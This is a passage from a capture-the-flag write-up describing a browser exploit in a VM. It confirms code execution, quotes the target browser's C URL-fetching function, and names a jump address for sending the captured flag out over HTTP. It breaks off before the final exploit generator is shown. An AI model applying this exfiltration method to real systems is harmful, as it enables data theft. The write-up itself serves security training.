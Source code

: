 Now launching `WebView` under the debugger and stepping a little over the code confirms that the exploit works and flag was loaded into memory.

![code_execution](code_execution.png "code_execution")


![flag_loaded](flag_loaded.png "flag_loaded")

Now it is time to exfiltrate the flag. We know that the VM has access to the internet, so we can make HTTP request with a flag as a parameter. I've found a useful function which can do work for us:

```c
bool GetUrl(dword _http_url)
{
	char new_url_full[URL_SIZE+1];

	if (!strncmp(_http_url,"http:",5)) {
		http.get(_http_url);
		return true;
	} else if (!strncmp(_http_url,"https://",8)) {
		strcpy(#new_url_full, "http://gate.aspero.pro/?site=");
		strncat(#new_url_full, _http_url, URL_SIZE);
		http.get(#new_url_full);
		return true;
	}
	return false;
}
```

Actually, we will use only `http.get` function. Quick check in IDA reveals that address where we need to jump is: `0x1137c`, so we just need to create the url for HTTP request. The Final exploit generator looks like this:
